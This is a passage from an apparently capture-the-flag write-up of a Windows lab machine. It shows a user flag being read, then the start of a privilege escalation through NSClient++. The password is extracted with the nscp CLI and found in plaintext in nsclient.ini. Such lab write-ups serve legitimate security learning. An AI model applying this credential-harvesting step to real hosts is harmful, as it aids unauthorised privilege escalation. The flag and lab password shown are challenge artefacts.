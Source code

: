 Let's get our user flag:

```
PS C:\Users\Nadine> gc Desktop\user.txt
f9dc9b5ab530d6d295219c156662c3c9
```

### Privilege Escalation  through NSClient++: Nadine to NT Authority\SYSTEM

Remember of the hypothesis I made about `NSClient++`. Let's read EDB-ID 46802
again.

We can use the CLI tool to display the password:

```
PS C:\Users\Nadine> cd "C:\Program Files\NSClient++"
PS C:\Program Files\NSClient++> .\nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

By trying to login with the password at https://10.10.10.184:8443/index.html
we are denied.

But if we read the config file `gc "c:\program files\nsclient++\nsclient.ini"`
we can see something.

```ini
# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help

; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1

; in flight - TODO
[/settings/NRPE/server]

; Undocumented key
ssl options = no-sslv2,no-sslv3

; Undocumented key
verify mode = peer-cert

; Undocumented key
insecure = false

; in flight - TODO
[/modules]

; Undocumented key
CheckHelpers = disabled

; Undocumented key
CheckEventLog = disabled

; Undocumented key
CheckNSCP = disabled

```